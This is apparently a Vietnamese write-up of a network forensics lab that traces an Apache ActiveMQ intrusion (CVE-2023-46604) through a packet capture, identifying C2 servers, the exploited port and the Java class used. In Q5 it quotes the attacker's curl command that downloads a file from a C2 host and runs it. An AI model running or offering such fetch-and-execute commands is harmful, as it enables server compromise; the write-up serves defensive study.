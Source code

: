 <h1>Q1:</h1>
<h2>Problem</h2>
By identifying the C2 IP, we can block traffic to and from this IP, helping to contain the breach and prevent further data exfiltration or command execution. Can you provide the IP of the C2 server that communicated with our server?
<h2>Solution
</h2>

Trước tiên mình sẽ check conversation giữa các sever 
![image](https://github.com/user-attachments/assets/ebb60552-2c92-4a0c-bd84-046dd7dfa39d)
Nhìn vào đó thì mình thấy được 3 IP khác kết nối tới địa chỉ sever của mình(134.209.197.3). Nhưng trong đó có 4867 packets đã được gửi giữa sever mình với sever IP 146.190.21.92
=> Ans: 146.190.21.92

<h1>Q2:</h1>
<h2>Problem</h2>
Initial entry points are critical to trace back the attack vector. What is the port number of the service the adversary exploited?

<h2>Solution</h2>
Khi nhìn vào packet thứ 4 và 5, mình thấy attacker sử dụng protocol OpenWire để tấn công sever(sau khi research thì mình biết được rằng OpenWire được xây dựng dựa trên nền tảng TCP và sử dụng TCP làm phương tiện truyền tải dữ liệu), sau đó mình vào các packet để check src port

![image](https://github.com/user-attachments/assets/bb104fa6-117f-40f7-a999-4632672b1e93)

=> Ans: 61616
<h1>Q3:</h1>
<h2>Problem</h2>
Following up on the previous question, what is the name of the service found to be vulnerable?

<h2>Solution</h2>
Mình search google xem giao thức OpenWire được dùng cho service nào và tìm được câu trả lời

![Screenshot 2024-08-22 224745](https://github.com/user-attachments/assets/21a77267-2cd8-453f-9048-73672ee48c20)

=> Ans: Apache ActiveMQ
<h1>Q4:</h1>
<h2>Problem</h2>
The attacker's infrastructure often involves multiple components. What is the IP of the second C2 server?

<h2>Solution</h2>
Sau khi nhìn vào phần Conversation, sever của mình còn kết nối với 2 sever khác nữa(128.199.52.72 và 84.239.49.16) nên mình filter từng IP một
<pre>ip.addr==134.209.197.3 && ip.addr==128.199.52.72</pre>

![image](https://github.com/user-attachments/assets/0bcff04d-3446-493d-a36c-4bfccf00d270)

Sau quá trình bắt tay ba bước, mình thấy sever của mình đang gửi một request GET để lấy tài nguyên nên mình follow TCP stream ở packet 34

![image](https://github.com/user-attachments/assets/c2223b7b-809b-4ae0-845f-e8ae8b8f02cc)

 Mình thấy được nội dung trả về là một tệp ELF(định dạng tệp thực thi chuẩn trên các hệ điều hành Linux, Unix), nên mình biết được đây chính là C2 sever
 => Ans: 128.199.52.72
<h1>Q5:</h1>
<h2>Problem</h2>
Attackers usually leave traces on the disk. What is the name of the reverse shell executable dropped on the server?

<h2>Solution</h2>
Khi đọc đến packet 11, mình thấy info của packet là 

_**GET /invoice.xml HTTP/1.1**_
![image](https://github.com/user-attachments/assets/6c94cd22-508f-494c-b3cd-343eb318dced)
Đây là một yêu cầu HTTP GET để lấy file invoice.xml từ máy chủ, nên mình check bằng cách follow TCP Stream và bắt được nội dung của file XML
![image](https://github.com/user-attachments/assets/f8fef9f5-e9d5-4954-b682-6936ff5fa5df)

Sau khi đọc và phân tích nội dung file thì mình kết luận được là trong tệp XML chứa mã độc, trong file đó chứa câu lệnh sau

<pre> curl -s -o /tmp/docker http://128.199.52.72/docker; chmod +x /tmp/docker; ./tmp/docker </pre>

Câu lệnh trên sẽ tải một tệp từ địa chỉ http://128.199.52.72/docker, sau đó cung cấp quyền thực thi cho tệp docker đó

=> Ans: docker
<h1>Q6:</h1>
<h2>Problem</h2>
What Java class was invoked by the XML file to run the exploit?
<h2>Solution</h2>
Sau khi đọc nội dung của file XML thì mình thấy được class được dùng là "java.lang.ProcessBuilder" 
Đây là một lớp trong Java dùng để tạo và quản lý các process mới. Trong trường hợp này, file XML sử dụng ProcessBuilder để thực thi các lệnh bash trên hệ thống.
=> Ans: java.lang.ProcessBuilder
<h1>Q7:</h1>
<h2>Problem</h2>
To better understand the specific security flaw exploited, can you identify the CVE identifier associated with this vulnerability?
<h2>Solution</h2>
Để tìm được CVE ID thì mình search google với từ khóa " OpenWire CVE là có kết quả

![image](https://github.com/user-attachments/assets/60739179-7872-4ea3-a834-a99fda95ac6a)

=> Ans: CVE-2023-46604

Sau đây là một số bài viết mình tìm hiểu liên quan tới CVE này

https://www.trendmicro.com/en_us/research/23/k/cve-2023-46604-exploited-by-kinsing.html 

https://www.openlogic.com/blog/activemq-cve-2023-46604

https://fidelissecurity.com/threatgeek/threat-intelligence/unveiling-apache-activemq-vulnerability/

Bản chất về cách hoạt động của CVE này đó là các lệnh OpenWire không thể validate được các Throwable class type, dẫn tới nguy cơ RCE.
Trong bài lab này, đoạn mã XML đã sử dụng class ProcessBuilder để tạo và khởi chạy mã độc.
![image](https://github.com/user-attachments/assets/9d7c09f4-1d58-4434-a486-8873efe69ccc)

Trong đoạn code trên, method validateIsThrowable được sử dụng để đảm bảo rằng chỉ các class kế thừa từ Throwable mới được chấp nhận và xử lý. Nếu không có method này hoặc method không hoạt động đúng cách, bất kỳ class nào cũng có thể được chấp nhận và thực thi, bao gồm cả các class chứa mã độc. 

 
<h1>Q8:</h1>

